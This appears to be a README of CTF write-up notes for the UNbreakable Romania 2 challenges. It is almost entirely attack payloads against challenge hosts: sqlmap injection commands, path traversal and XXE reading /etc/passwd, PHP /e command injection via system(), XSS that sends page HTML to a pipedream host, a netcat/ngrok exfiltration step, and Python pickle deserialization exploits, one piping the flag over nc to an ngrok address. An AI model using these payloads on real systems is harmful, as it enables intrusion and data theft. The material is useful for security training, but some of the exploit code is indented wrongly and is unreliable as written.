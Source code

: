 # writeups

## https://blog.kuhi.to/unbreakable-romania-2-writeup

### Small data leak

```sqlmap -u http://35.198.183.125:30321/user?id=1;```

```sqlmap -u http://35.198.183.125:30321/user?id=1 --dbs```

```sqlmap -u http://35.198.183.125:30321/user?id=1 -D public --tables```

```sqlmap -u http://35.198.183.125:30321/user?id=1 -D public -T 'ctf{70ff919c37a20d6526b02e88c950271a45fa698b037e3fb898ca68295da' --columns```


### File Crawler

```http://34.141.25.94:32191/local?image_name=..//..//..//etc/passwd```

```http://34.141.25.94:32191/local?image_name=..////tmp//flag```


### Substitute
```http://35.246.170.233:31993/?vector=/Admin/e&replace=phpinfo()```

```http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls -l")```

```http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls here_we_dont_have_flag -l")```

```http://35.246.170.233:31993/?vector=/Admin/e&replace=system("cat here_we_dont_have_flag/flag.txt")```


### manual-review
```
<script>
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net"
</script>
```

### syntax check

burpsuite
```
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "/etc/passwd">
]>
<foo>&exfiltrate;</foo>
```

```
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag">
]>
<foo>&exfiltrate;</foo>
```
### Under Construction
https://github.com/ticarpi/jwt_tool
```
python3 jwt_tool.py -t http://35.198.93.134:30791/api/app/admin -rc
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTIsImlhdCI6MTYzNTkzNjY4OCwiZ
XhwIjoxNjM2MDIzMDg4fQ.tQ2KlBU8tI5V1Akiqhwy2LSEOF9oBTvnYFs_xgwro04" -C -d
~/sss.txt 
```
https://jwt.io/

### Downloader v1

ngrok needed

ngrok http 7777

nc - lvnp 7777

https://eoifpwfcq85jqhy.m.pipedream.net/test.php --post-file '/var/www/html/flag.php'


###  Framable
```
<script>
    let html = document.body.innerHTML;
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net?bob=" + btoa(html)
</script>
```
atob('')

### alfa-cookie

```
import requests
import pickle
from pwn import *
url = "http://35.198.93.134:30049/dashboard"
    class RCE:
        def __reduce__(self):
        cmd = ('cat flag | nc 2.tcp.ngrok.io 17855')
        return os.system, (cmd,)
        
payload = pickle.dumps(RCE(), protocol=2)
print(payload)
key = len(payload) * "A"
auth_cookie = xor(payload, key).hex()

r = requests.get(url, cookies={"key": key, "auth_cookie": auth_cookie})
```

https://blog.kuhi.to/unbreakable-romania-2-writeup

### Rundown
```
curl -X POST http://35.246.170.233:32274/ > o.html
```

```
import pickle as cPickle
import base64
import os
import string
import requests
import time
class Exploit(object):
    def __reduce__(self):
        return (eval, ('eval(open("flag","r").read())', ))
def sendPayload(p):
    newp = base64.urlsafe_b64encode(p).decode()
    headers = {'Content-Type': 'application/T3jv1l'}
    r = requests.post("http://34.107.45.139:30396/",headers=headers,data=newp)
    return r.text
    
payload_dec = cPickle.dumps(Exploit(), protocol=2)
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] +"}")
```
